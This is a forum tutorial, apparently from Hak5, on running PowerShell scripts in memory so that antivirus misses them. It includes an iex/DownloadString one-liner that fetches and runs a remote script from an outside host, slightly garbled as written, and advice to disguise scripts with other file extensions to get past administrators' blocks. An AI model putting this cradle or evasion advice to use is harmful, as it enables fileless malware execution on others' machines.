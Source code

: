 ## PowerShell Tutorial
###### Author: Dave-ee Jones
###### Subject: Running PowerShell scripts in memory
###### Original post: [Link](https://forums.hak5.org/topic/41729-running-powershell-in-memory/)

### DISCLAIMER:
I don't claim to know everything in this area, I am just giving you a general idea and some resources.

So I've seen lots of PowerShell-based scripts (for the Ducky and BB especially), and there are a few people talking about running PS scripts in memory so that most free anti-virus software can't detect the script. Since most newbies don't know how to do this (and even some elderbies), I figured I would give you a few links and a brief explanation myself.

So, without further ado, let's get started!

### First, let's consider; what does loading a script into memory mean?
Well, we all know how variables and functions work, right?
```
var1 = "hello there!"
```
When this bit of code executes it has just told the computer 'Okay, make sure you remember this, now. Var1 equals "hello there!"' and the computer has gone 'K, boss!' and puts it into it's memory, just like we would with a bit of information we've been given. Functions are the same. In Lua (using Lua as an example because it's the language I'm most familiar with) I could do something like this:
```
local var = "hello world!"

local func = function()
	print(var)
end
```
This has put the function 'func' and variable 'var' into memory. 'Func' is executable, so when we call the function like so it will do like so:
```
func()

OUTPUT:
hello world!
```
So we've just executed a function that was first placed in memory, but SOURCED from the script (text file) itself. We can do the same with scripts. We can load a script into a variable, allowing us to call it from memory.

### Okay, that's great, but how do I load a *script* into a variable - and how am I supposed to run it?

First off, we have to remember to store the script outside of the machine we're running the script on. THEN we need to use an amazing PowerShell module called 'Invoke-Expression', which allows us to execute strings. You can see where this is going, right?

If we're getting the script from a website or a webserver, we can do something like this:
```
$url = ‘https://www.justaprank.com/scripts/script1.ps1′
iex ((New ObjectNet.WebClient).DownloadString($url))
```
 This will download the whole contents of the 'script1.ps1' file, allowing us to execute it with 'iex' which is the shorthand alias of 'Invoke-Expression', NOT Internet Explorer.

If we're getting the script from a file hosted on an SMB server, USB (Ducky/BB) or outside source, we can do something like this:
```
iex (Get-Content pathtoscript\script1.txt)
```
The beauty about both of these ways is we don't have to have a specific '.ps1' extension on it, allowing us to load all kinds of scripts that can be disguised as pictures, video, text files etc.

**IN FACT** it's better NOT to have a '.ps1' extension because there are people (especially Domain Administrators) who block '.ps1' scripts from being read/executed, so having a different extension helps greatly, even if loading from an outside source (web server, USB).

So I hope this has helped some of you understand what we mean by running a script in memory, and how powerful it can be! Keep in mind that there are still lots of Anti-virus software that will detect stuff like this, but, unfortunately, most of it is paid software (money-making losers who think money > security..).

Also keep in mind that there are plenty of other ways of storing scripts in memory (one being using C#), but these are (arguably) the easiest.

### And now, resources!

https://securingtomorrow.mcafee.com/business/fileless-malware-execution-with-powershell-is-easier-than-you-may-realize/
https://github.com/PowerShellMafia/PowerSploit/tree/master/CodeExecution
https://clymb3r.wordpress.com/
https://www.defcon.org/images/defcon-21/dc-21-presentations/Bialek/DEFCON-21-Bialek-PowerPwning-Post-Exploiting-by-Overpowering-Powershell.pdf 
